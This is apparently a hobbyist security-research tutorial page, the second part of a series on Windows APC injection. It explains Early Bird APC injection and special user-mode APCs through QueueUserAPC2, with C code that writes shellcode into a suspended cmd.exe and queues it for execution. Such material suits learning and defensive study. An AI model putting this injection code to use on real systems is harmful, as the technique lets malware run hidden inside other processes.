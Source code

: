 # Early Bird & Special APC

## Early Bird APC Injection

So what's is Early Bird APC Injection? how is it different than APC Injection ? The answer is simple, here instead of creating a suspended thread, we create a suspended process (note that the main thread will also be in suspended state) and then queue the APC call pointing to the allocated memory for our shellcode. The code is really simple, we can create a suspended process by providing the `CREATE_SUSPENDED` flag to the `CreateProcessA` API.

```c
VOID earlyBirdAPC() {
	
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess,
		hThread = pi.hThread;
	
	LPVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pAddr == NULL) {
		exit(2);
	}

	WriteProcessMemory(hProcess, pAddr, shellcode, sizeof(shellcode), 0);
	QueueUserAPC(pAddr, hThread, NULL);
	ResumeThread(hThread);

}
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Note that since the thread was is suspended state, it directly runs all of the APC routine (which is just 1 in our case) and exits which is why we don't see a CMD spawn, if we look at it using Process Hacker , we can see that the cmd.exe is created in suspended state, but it exits after the calculator has been spawned. I had to use `getchar()` to be able to screenshot the suspended Process & Thread and here it is

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

note that the main thread is the thread of the actual malicious process and not the victim process.

if you want to go deep into this then  you can surely checkout [repnz's blog](https://repnz.github.io/posts/apc/user-apc/) on it, he has explained it in more depth.

## Special APC (Bonus)

This [**MSDN Page**](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs) talks about different types of APC's and we see that there is another special user-mode APC. We can use the [`QueueUserAPC2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2) function with a [special flag](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ne-processthreadsapi-queue_user_apc_flags) to make our APC "special".

> Special user-mode APCs always execute, even if the target thread is not in an alertable state. For example, if the target thread is currently executing user-mode code, or if the target thread is currently performing an alertable wait, the target thread will be interrupted immediately for APC execution. If the target thread is executing a system call, or performing a non-alertable wait, the APC will be executed after the system call or non-alertable wait finishes (the wait is not interrupted).

I genuinely don't know why it does work on Windows 10 even though the minimum support client version is Windows 11 Build 22000 given on [QueueUserAPC2 page](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2). But if it does, it does and so I'll show you how it works practically.

<mark style="color:red;">**Important Note**</mark> : Please avoid using this APC with legitimate processes, unless you do you, because it makes the thread interrupt immediately which _may_ crash your PC.

Anyways, looking at the function, it is very similar to its prequel and it seems that it acts just like a normal APC if don't pass any flags, and for special APC, we can pass the `QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC` flag which is just a 1.

```c
BOOL QueueUserAPC2(
  PAPCFUNC             ApcRoutine,
  HANDLE               Thread,
  ULONG_PTR            Data,
  QUEUE_USER_APC_FLAGS Flags
);

typedef enum _QUEUE_USER_APC_FLAGS {
  QUEUE_USER_APC_FLAGS_NONE,
  QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC,
  QUEUE_USER_APC_CALLBACK_DATA_CONTEXT
} QUEUE_USER_APC_FLAGS;

// Below is from processthreadsapi.h

    QUEUE_USER_APC_FLAGS_NONE               = 0x00000000,
    QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC   = 0x00000001,
    //
    // Used for requesting additional callback data.
    //
    QUEUE_USER_APC_CALLBACK_DATA_CONTEXT    = 0x00010000, // 65536
```

To give an example of how the thread execution is stopped immediately, I wrote a small function that will keep a thread busy for a while. It was important because the thread finished its execution even before I could queue the APC call.

```c
VOID noAleeert() {
	info("Thread ID noAlert : %d", GetCurrentThreadId());
	for (size_t i = 0; i < 50000; i++) {
		// If printing these many is unfavorable then 
		// Loop till 50, with a Sleep(1) or below 30 imo
		// Sleep(1);
		printf(" %d ",i);
	}
}

QueueUserAPC2(shellcode, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);

```

We see that even though the thread was supposed to execute a long loop but it was stopped in the middle of its execution to run our special APC.&#x20;

<figure><img src="../../.gitbook/assets/SpecialAPC2.gif" alt=""><figcaption></figcaption></figure>

Also another thing to note is that the thread does resume it's execution after it has finished running the special APC. In our case, it _could_ be the shellcode that causes it to exit immediately (This is just my guess, if you know then please reach out to me). We can see this with another example, here I will have a global variable `COUNT` which I will reset using the special APC. This also shows how the APC can disrupt the normal execution and change the data.

```c
SIZE_T COUNT = 5;

VOID testt() {
	info("I ran because im special");
	COUNT = 0;
}
//
QueueUserAPC2((PAPCFUNC)testt, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);
```

<figure><img src="../../.gitbook/assets/SpecialAPCresume (1).gif" alt=""><figcaption></figcaption></figure>

We can see that the thread stops execution at 13, runs the special APC, and then continues its execution again until 35 at which the loop ends (14 + 36 = 50).

That's it for now, this was the 2nd part of the APC Injection. I did felt like I should break it into 2 parts. Anyways, I am going to talk about syscalls next and also hooking/unhooking functions. It's a bit hard to squeeze out time for my hobby now, but I'll keep doing it.

## References

* [https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer](https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer)
* [https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2)
* [https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection)

